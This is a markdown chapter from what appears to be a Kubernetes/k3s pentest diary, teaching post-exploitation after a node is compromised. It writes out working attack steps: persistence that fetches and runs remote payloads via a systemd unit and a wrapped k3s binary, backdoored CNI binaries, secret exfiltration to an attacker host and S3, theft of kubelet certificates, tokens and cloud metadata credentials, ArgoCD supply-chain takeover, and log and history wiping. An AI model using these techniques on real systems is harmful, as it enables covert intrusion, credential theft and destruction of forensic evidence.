

# 📄 **16_post_exploitation.md**

### *Phase 7 — Post-Exploitation, Dominance & Persistent Access*

**Mi Familia Kubernetes/k3s Pentest Diary**

---

````markdown
# 16 — Post-Exploitation, Persistence & Dominance
### Phase 7: Maintaining Control After Node or Cluster Compromise

After escaping to the node (Section 15), attackers move into the **post-exploitation phase**, where goals shift to:

- Maintain undetected long-term access  
- Expand cloud & cluster privileges  
- Subvert cluster operations  
- Exfiltrate sensitive data  
- Establish supply-chain control  
- Prepare high-impact attack paths  

This phase determines how thoroughly and silently an adversary can dominate a Kubernetes environment.

---

# 🧩 1. Post-Node Compromise Objectives

Once you have node access, your operational agenda includes:

### ✔ Covert Persistence  
Systemd, CNI, rootfs injections, mutated workloads.

### ✔ Cluster-Wide Recon  
Enumerate secrets, workloads, CRDs, operators, cloud roles.

### ✔ Data Exfiltration  
Secrets, DB creds, network configs, internal cluster CA.

### ✔ Control-Plane Impersonation  
Using kubelet certs, bootstrap tokens, impersonation headers.

### ✔ Cloud IAM Pivoting  
AWS/GCP/Azure takeover.

### ✔ Supply Chain Subversion  
Modify CI/CD jobs, base images, registries.

### ✔ Anti-Forensics  
Log mutation, overlayfs tricks, kubelet bypass.

The remainder of this chapter teaches **every one of these** in detail.

---

# 🔍 2. Cluster-Wide Reconnaissance After Node Compromise

### 2.1 Enumerate all workloads in the cluster
```bash
kubectl get pods -A
kubectl get deployments -A
kubectl get secrets -A
kubectl get configmaps -A
````

### 2.2 Enumerate all service account secrets

```bash
find /var/lib/kubelet/pods/ -name token
```

### 2.3 Harvest root tokens & projected serviceaccount.io tokens

Projected tokens leak here:

```
/var/lib/kubelet/pods/<UID>/volumes/kubernetes.io~projected/
```

These are **short-lived but extremely powerful**.

---

# 🔱 3. Kubelet Impersonation for Cluster Domination

If you extracted:

```
/var/lib/kubelet/pki/kubelet-client-current.pem
```

Test against the API server:

```bash
curl -k \
  --cert kubelet-client-current.pem \
  --key kubelet-client.key \
  https://<APISERVER>/api/v1/nodes
```

If the `system:nodes` ClusterRole is overly permissive (common), you may now:

* Impersonate any ServiceAccount
* Create new pods
* Read secrets cluster-wide
* Evict pods
* Start ephemeral containers with root access

Full cluster compromise with **zero kubectl logs**.

---

# ☁️ 4. Cloud Provider Pivoting (AWS, GCP, Azure)

Nodes almost always have cloud identities.

### AWS IAM:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

If you see something like:

```
AmazonEKSWorkerNodePolicy
AmazonEKS_CNI_Policy
```

You can:

* Pull private images
* Access S3 bucket configs
* Enumerate EC2 instances
* Assume additional roles
* Call KMS decrypt (!!)
* Read parameter store secrets
* Execute remote commands (SSM Session Manager)

Attack curve:
Node → Cloud IAM → Admin → Rebuild cluster to hide evidence.

---

# 🧰 5. Persistence Strategies (Covert, Red-Team Tested)

This section contains **the most valuable persistence content** for pentesters.

---

## 5.1 **Persistence via CNI Manipulation (Stealth)**

CNI binaries run every time a pod is attached to the network.

Target directory:

```
/opt/cni/bin/
```

Backdoor example:

```bash
cp evil-portmap /opt/cni/bin/portmap
```

This triggers a callback every time **ANY** pod comes up.

Persistence survives:

* Pod restarts
* Node reboots
* Cluster upgrades (if node not rebuilt)

---

## 5.2 **Persistence via Systemd Service Injection**

Example:

```bash
cat <<EOF > /host/etc/systemd/system/kubelet-updater.service
[Service]
ExecStart=/bin/bash -c 'curl http://attacker/payload.sh | bash'
EOF
```

Then:

```
systemctl enable kubelet-updater
```

Stealth version: name it like a vendor:

```
aws-ec2-metadata-update.service
```

---

## 5.3 **Persistence via Mutating Kubelet Binary (k3s)**

k3s installations store the entire runtime in:

```
/usr/local/bin/k3s
```

Replace or wrap it:

```bash
mv k3s k3s.orig
echo -e "#!/bin/bash\n/usr/local/bin/k3s.orig \"\$@\"\ncurl attacker/p.sh | sh" > k3s
chmod +x k3s
```

This is extremely difficult for defenders to spot.

---

## 5.4 **Persistence via Container Runtime Mutation**

containerd rootfs:

```
/var/lib/containerd/io.containerd.runtime.v2.task/k8s.io/<POD>/rootfs/
```

Modify binaries inside workloads:

* ssh keys
* wget/curl installed
* cron jobs
* credentials harvesting modules
* LD_PRELOAD

Mutation is invisible to kubectl and audit logs.

---

## 5.5 **DaemonSet-Based Persistence (Cluster-Wide)**

Deploy your own DaemonSet from node access:

```bash
kubectl apply -f malicious-daemonset.yaml
```

If API access is blocked, write static manifests:

```
/etc/kubernetes/manifests/
```

kubelet autodeploys them → cluster-level persistence.

---

# 🔒 6. Supply Chain Subversion (High-Impact)

Operators, CI/CD agents, and admission controllers are high-value.

Targets include:

* ArgoCD
* Flux
* cert-manager
* Gatekeeper
* Jenkins
* GitLab Runners
* Tekton
* CircleCI agents

### Example ArgoCD operator takeover:

Inject SSH keys or token into repo secrets:

```bash
kubectl -n argocd get secrets
kubectl -n argocd edit secret argocd-repo-creds
```

This grants ability to:

* Modify everything deployed in cluster
* Deploy backdoors cluster-wide
* Replace workloads silently

This is **the real enterprise-killer attack**.

---

# 🎣 7. Lateral Movement Strategies

After persistence, move laterally across:

### ✔ Namespaces

Harvest secrets & service accounts
Run privileged pods via existing RBAC holes

### ✔ Nodes

Pivot using DaemonSets
Use kubelet to exec into other nodes' workloads

### ✔ Control Plane

Use node TLS certs
Abuse unauthorized 10250
Use impersonation headers

### ✔ Cloud

Use node IAM role to escalate to Admin
Modify cloud resources underpinning cluster
Replace node AMIs / launch templates
Compromise ECR / GCR / ACR images

---

# 📤 8. Data Exfiltration Approaches

### 8.1 Drop exfil channel inside containers

Example:

```bash
cat /secrets/db | base64 | curl -X POST attacker.com/x
```

### 8.2 Use already-whitelisted cloud endpoints

AWS S3 exfil is common:

```
aws s3 cp loot s3://mybucket/loot
```

### 8.3 Use kubelet logs

Logs can be written into:

```
/var/log/containers/*.log
```

Defenders rarely inspect them.

---

# 🧽 9. Anti-Forensics & Stealth Techniques

Key goals: remove indicators of compromise.

### 9.1 Remove command history

Containers:

```
rm ~/.bash_history
history -c
```

Nodes:

```
sed -i '/your IP/d' /var/log/syslog
```

### 9.2 Modify container logs

Simply rewrite:

```
/var/log/containers/<pod>.log
```

### 9.3 Replace container images silently

Using containerd rootfs mutation.

### 9.4 Hide persistence in overlayfs layers

Defenders rarely inspect under:

```
/var/lib/containerd/.../diff/
```

### 9.5 Manipulate admission controllers

Backdoor OPA or Gatekeeper rules.

---

# 📊 10. Post-Exploitation Attack Map (GitHub-Safe Mermaid)



---

# 🧨 11. Real-World Post-Exploitation Findings (Red Team Notes)

Seen in actual enterprise breaches:

* kubelet certs granting cluster-admin
* metadata IAM roles allowing full cloud control
* cert-manager takeover → full PKI compromise
* ArgoCD operator takeover → supply chain collapse
* attacker replacing container runtime binaries
* DaemonSets used for crypto-mining & persistence
* node filesystem modification hiding malicious configs

This is why node compromise is treated as:

> **“Assume full cluster & cloud breach.”**

---

# 🎯 12. Summary — Dominance Achieved

After post-exploitation:

✔ Long-term persistence established
✔ Control-plane impersonation possible
✔ Cloud IAM elevated
✔ CRDs, operators, and workloads fully subverted
✔ Exfiltration channels open
✔ Anti-forensics in place

The attacker now has **full-spectrum control** of the Kubernetes ecosystem.

##
##
